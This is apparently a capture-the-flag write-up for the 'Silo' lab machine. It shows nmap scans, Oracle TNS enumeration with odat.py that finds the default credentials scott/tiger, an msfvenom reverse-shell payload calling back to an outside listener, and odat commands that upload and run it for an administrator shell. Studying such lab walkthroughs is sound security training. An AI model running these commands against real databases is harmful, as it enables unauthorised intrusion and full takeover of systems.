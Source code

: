 # Silo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.188 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:12 EDT
Warning: 10.129.95.188 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.95.188
Host is up (0.013s latency).
Not shown: 65350 closed tcp ports (conn-refused), 170 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
5985/tcp  open  wsman
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown
```

Lots of ports, including some I'm not familiar with like port 1521.

### Oracle RCE

I initially ran a few directory scans and SMB enumeration, but they all returned nothing interesting. So I decided to scan port 1521 in detail because I normally don't see that one.

```
$ sudo nmap -p 1521 -sC -sV -O -T4 10.129.95.188 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:15 EDT
Nmap scan report for 10.129.95.188
Host is up (0.0073s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
```

So this was an Oracle port. Based on Hacktricks, we can try using `odat.py` to attack this.

{% embed url="https://github.com/quentinhardy/odat" %}

We can run the enumeration to find all SIDs and possible passwords before attacking it.&#x20;

```
$ ./odat.py all -s 10.129.95.188 -p 1521 
<TRUNCATED OUTPUT>
[+] SIDs found on the 10.129.95.188:1521 server: XE
[+] Service Name(s) found on the 10.129.95.188:1521 server: XE,XEXDB
[+] Valid credentials found: scott/tiger. Continue...                  
```

We found the database and also some credentials, which I think is enough to exploit this system easily. With these, we can upload a reverse shell onto the server rather easily.&#x20;

First, we can create a reverse shell via `msfvenom`:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f exe -o rev.exe
```

Then we can run the following commands:

{% code overflow="wrap" %}
```
$ ./odat.py utlfile -s 10.129.95.188 -d XE -U scott -P tiger --sysdba --putFile \\temp rev.exe rev.exe

[1] (10.129.95.188:1521): Put the rev.exe local file in the \temp folder like rev.exe on the 10.129.95.188 server
[+] The rev.exe file was created on the \temp directory on the 10.129.95.188 server like the rev.exe file

$ ./odat.py externaltable -s 10.129.95.188 -p 1521 -d XE -U scott -P tiger --sysdba --exec \\temp rev.exe         

[1] (10.129.95.188:1521): Execute the rev.exe command stored in the \temp path
```
{% endcode %}

We would gain a reverse shell as the administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>
